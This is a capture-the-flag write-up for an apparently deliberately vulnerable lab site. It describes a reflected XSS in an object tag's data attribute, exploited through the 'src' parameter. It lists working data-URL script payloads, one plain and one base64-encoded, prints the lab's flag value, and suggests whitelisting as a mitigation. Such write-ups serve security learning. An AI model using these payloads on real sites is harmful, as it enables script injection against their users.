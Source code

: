 # XSS in Media Object


## Issue

The URL "http://192.168.43.47:8000/index.php?page=media&src=nsa" embeds content onto the page and passing through different value in 'src' parameter can \
render malicious content on page.


## Attack Vector

1 - Examining the HTML Code at "http://192.168.43.47:8000/index.php?page=media&src=nsa" and changing the 'src' value reveals the value is reflected in html code. \
`<object data="thisismyvalueinput"></object>`

2 - We try different payloads to try and break out of the tags but are unsuccessful. We find most payloads are filtered so we try data urls as per `https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data` 

3 - `src=data:text/html,<script>alert('XSS');</script>` seems to demonstrate XSS but does not reveal the flag. 

4 - We attempt to base64 encode the request with `src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=` and the flag is revealed

4 - Flag is `928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`


## PoC

<img src="12_Screenshot.png" width="70%" height="70%" />



## Mitigation

1 - Validate and whitelist URLs

2 - Restrict to internal URLs using relative URLs